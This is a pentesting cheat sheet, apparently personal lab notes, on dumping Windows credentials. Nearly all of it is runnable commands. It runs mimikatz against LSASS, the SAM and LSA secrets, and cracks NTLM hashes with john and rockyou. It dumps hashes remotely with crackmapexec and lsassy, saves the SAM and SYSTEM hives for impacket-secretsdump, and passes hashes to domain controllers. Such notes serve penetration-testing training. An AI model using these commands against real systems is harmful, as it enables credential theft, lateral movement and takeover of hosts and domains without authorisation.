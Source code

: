 {% code overflow="wrap" %}
```
.\mimikatz64.exe "privilege::debug" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::secrets" "exit"
```
{% endcode %}

crack

```
john --wordlist=/usr/share/wordlists/rockyou.txt ntlmhash.txt --format=NT 
```

#### CME dump hashes remotely (with local admin creds/hash)

<pre data-overflow="wrap"><code><strong>#lsass
</strong><strong>crackmapexec smb 172.16.1.100 -u admin -p 'pwd' -M lsassy --local-auth
</strong><strong>(-d if domain user is local admin)
</strong><strong>
</strong><strong>#sam
</strong>crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --sam
(-H nthash)
</code></pre>

#### Impacket dump all user password  from SAM&#x20;

{% hint style="info" %}
useful when having admin shell but no account creds, to get local admin hash for pth
{% endhint %}

victim

```
reg save HKLM\SAM .\SAM
reg save HKLM\SYSTEM .\SYSTEM
```

kali

<pre><code><strong>impacket-secretsdump -system SYSTEM -sam SAM LOCAL
</strong>samdump2 SYSTEM SAM
</code></pre>

with admin creds can dump from kali remote

{% code overflow="wrap" %}
```
impacket-secretsdump kudos.local/user:pwd@192.168.200.158
or user@ip -hashes :nthash

secretsdump.py domain.local/'dcadmin'@10.1.1.1 -hashes :nthash -dc-ip 10.1.1.1

crackmapexec smb 192.168.200.0/24 -u bwallis -d KUDOS.local -p P@ssWord! --sam
(-p -> -H :nthash)
```
{% endcode %}

alt
